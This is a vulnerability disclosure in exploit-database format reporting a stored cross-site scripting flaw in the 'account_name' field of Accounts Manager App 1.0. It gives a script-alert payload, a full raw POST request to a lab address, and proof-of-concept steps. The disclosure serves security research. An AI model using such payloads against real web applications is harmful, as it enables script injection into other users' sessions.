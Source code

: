 # Accounts Manager App - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Accounts Manager App - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17482/accounts-manager-app-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17482&title=Accounts+Manager+App+Using+PHP+and+MySQL+with+Source+Code

#### Version: Accounts Manager App 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Accounts Manager App does not filter the content correctly at the "account_name" parameter, resulting in the generation of stored XSS.

#### Payload used:

`<script>alert("a")</script>`

```
POST http://192.168.67.35:8093/endpoint/add-account.php HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 110

account_name=%3Cscript%3Ealert%28%22a%22%29%3C%2Fscript%3E&username=admin&password=1232131&link=https%3A%2F%2F
```

#### Proof of Concept

1、Visit the website, click on "add Account", and fill in the xss payload in the "Account Name" field

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/xss2.png)

2、After successfully adding, re visiting the page will trigger an XSS pop-up window

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/xss1.png)

3、The captured post packet is as follows：

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/xss3.png)
